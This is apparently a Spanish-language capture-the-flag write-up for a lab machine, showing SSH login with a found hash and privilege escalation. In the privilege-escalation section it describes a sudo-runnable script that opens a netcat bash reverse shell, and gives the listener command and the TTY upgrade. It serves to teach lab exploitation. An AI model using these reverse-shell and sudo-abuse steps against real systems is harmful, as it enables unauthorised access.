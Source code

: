 https://github.com/user-attachments/assets/cb1180db-3a95-4f63-959f-1a887969a70f

he conseguido el codigo para acceder `0081`

![image](https://github.com/user-attachments/assets/7e3dde65-f606-4810-841a-a80116b5f06f)

obtenemos el codigo secreto `bbb2c5e63d2ef893106fdd0d797aa97a` y si intento decodificarlo no doy con nada asi que al continuar revisando la web y su codigo fuente
consigo lo que podria ser un usuario en `http://lifeordead.dl/pageadmincodelogin.html`

![image](https://github.com/user-attachments/assets/d592a658-bbcf-4a7c-856b-34ff4331589c)

y si testeo con `dimer` y `bbb2c5e63d2ef893106fdd0d797aa97a` por `ssh`

![image](https://github.com/user-attachments/assets/e7d11c78-75d2-4b10-9a3c-d87aa6bf55af)

## Escalada de Privilegios

### dimer

![image](https://github.com/user-attachments/assets/e8882891-fd0b-4b86-9dee-5c3f044402a6)

si chequeo el script

![image](https://github.com/user-attachments/assets/8a70018c-cad1-4d2a-b0bc-ec8219206a28)

Este script está configurando una dirección IP y un puerto usando cálculos bit a bit, y luego usa netcat para abrir una conexión a esa dirección IP y puerto, 
ejecutando un shell de bash (/bin/bash). El script se conecta a la dirección IP 172.17.0.186 en el puerto 6068, para poder recibir esta conexion agregare la
ip `172.17.0.186` a mi host

```bash
ip addres add 172.17.0.186/16 dev docker0
```

ahora me puedo colocar en escucha por el puerto 6068

```bash
nc -lnvp 6068
```

procedo a ejecutar el script `/opt/life.sh`

```bash
sudo -u bilter /opt/life.sh
```

![image](https://github.com/user-attachments/assets/f6d67418-cb7b-4fe6-8cbb-bc538585001e)

### bilter

tratamos la tty para poder tener mejor control

```bash
script /dev/null -c bash 
Z^
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```

